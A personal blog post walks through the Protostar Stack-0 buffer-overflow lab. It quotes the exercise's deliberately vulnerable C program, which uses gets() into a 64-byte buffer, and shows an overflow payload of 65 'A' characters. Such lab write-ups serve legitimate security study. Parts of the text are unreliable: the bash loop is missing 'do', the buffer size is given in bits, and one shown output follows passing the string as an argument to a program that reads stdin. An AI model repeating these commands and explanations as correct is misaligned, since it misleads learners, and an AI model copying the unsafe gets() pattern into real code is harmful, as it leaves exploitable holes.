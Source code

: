 ```yaml
---
author: "faizul"
title: "Protostar Stack-00"
date: 2020-09-30T12:00:06+09:00
description: "Exploit-Exercise Protostar Stack-0"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
---
```

 
Low-level exploit, reverse engineering always excite me. Eventhough i did attended one class during Bachelor Degree and learn about Assembly in X86, i only admire this skillset when i relly grind myslef into cybersec and pentest. I try to attend few free training during DefCon and other InfoSec Conference besides doing tutorial from various blog such as MalwareUnicorn, netgarageio and the Exploit Exercise itself. 

This post will be the first entry of me doing Protostar VM by exploit-exercise. While the Stack-0 will be easiest form of Buffer Overflow(for entry), this VM might help me to prepare my aim to gain OSCP in 2021. Enjoy my dumb writing. 

# Stack 0

## Problem
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Code provided

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
## Binary execution
![4052c843babad3a3f3a121fa05eaf88f.png](:/f6f2ffd342c546f686de2632a76ac35a)

## Solution 
Since the code show how `char buffer` only hold `[64]` bit value, lets run this first with 3 bit value. Next, we going to run the binary with value up to 64. To do this, we can use bash script to generate/print value 64 above.



```bash
user@protostar:~$ for a in {1..65}; echo -n a; done
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

user@protostar:/opt/protostar/bin$ ./stack0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
```

Ok, looks like we successfully overwrite the memory area by exploiting the memory buffer overflow technique. 

To make the payload in a form of human readable and beautiful, lets just use python. 

```python
python -c "print 'A' * 65" | /opt/protostar/bin/stack0
```

Then on our ssh, just execute this python script and let the payload execute corrupt the memory.

```bash
user@protostar:~$ python -c "print 'A' * 65" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```
